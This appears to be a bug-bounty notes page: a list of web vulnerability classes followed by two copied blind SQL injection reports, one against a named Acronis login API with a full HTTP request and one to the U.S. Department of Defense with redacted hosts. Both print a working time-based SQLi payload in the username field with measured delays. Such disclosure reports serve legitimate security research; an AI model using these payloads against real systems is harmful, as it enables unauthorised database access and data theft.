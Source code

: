 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection


# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions
